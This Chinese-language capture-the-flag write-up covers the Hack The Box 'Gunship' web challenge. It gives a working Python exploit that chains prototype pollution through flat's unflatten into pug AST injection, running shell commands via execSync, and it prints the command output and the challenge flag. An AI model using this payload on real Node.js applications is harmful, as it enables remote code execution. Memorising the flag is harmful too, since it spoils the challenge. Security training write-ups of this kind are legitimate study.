 # Gunship

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

一座光之城，住着80年代复古未来风的人们，咖啡和来自异世界的饮品……世间所有的诱惑，却让你感到更加孤独……这段旅程在此结束，献给英国合成器浪潮乐队Gunship的致敬页面。🎶

:::

```javascript title="index.js"
const express       = require('express');
const app           = express();
const routes        = require('./routes');
const path          = require('path');

app.use(express.json());
app.set('views','./views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes);

app.all('*', (req, res) => {
    return res.status(404).send('404 page not found');
});

app.listen(1337, () => console.log('Listening on port 1337'));
```

在页面底部发现一个输入框

![img](img/image_20240357-185735.png)

根据 POST 发送的路由，定位到

```javascript title="challenge\routes\index.js"
const path              = require('path');
const express           = require('express');
const pug                = require('pug');
const {unflatten}     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const {artist} = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});

module.exports = router;
```

参考以下两个文章

- [How AST Injection and Prototype Pollution Ignite Threats | by rayepeng | Medium](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- [一文带你理解 AST Injection - 先知社区](https://xz.aliyun.com/t/12635?time__1311=mqmhDvqIx%2BOKDsD7GQ0%3DQoqWqGIxG%3D%2B5b4D&alichlgref=https%3A%2F%2Fwww.google.com%2F)

编写攻击 exp

```python
import requests
import base64

TARGET_URL = "http://94.237.56.248:50213"


command = "ls -lh"

print("Command: {}\n".format(command))

r = requests.post(
    TARGET_URL + "/api/submit",
    json={
        "artist.name": "Haigh",
        "__proto__.block": {
            "type": "Text",
            "line": "process.mainModule.require('child_process').execSync('$({command} | base64 > /app/static/out)')".format(command=command),
        },
    },
)

r = requests.get("http://94.237.56.248:50213/static/out").text

print(base64.b64decode(r).decode())
```

对网站进行交互

```shell
Command: ls -lh

total 56K
-rw-r--r--    1 nobody   nobody        56 Aug 13  2021 flagpJtu8
-rw-r--r--    1 nobody   nobody       441 Oct  9  2020 index.js
drwxr-xr-x   89 root     root        4.0K Aug 13  2021 node_modules
-rw-r--r--    1 nobody   nobody       359 Oct  9  2020 package.json
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 routes
drwxr-xr-x    1 nobody   nobody      4.0K Mar 11 11:25 static
drwxr-xr-x    2 nobody   nobody      4.0K Aug 13  2021 views
-rw-r--r--    1 nobody   nobody     25.5K Oct  9  2020 yarn.lock

Command: cat flagpJtu8

HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```

```plaintext title="Flag"
HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}
```
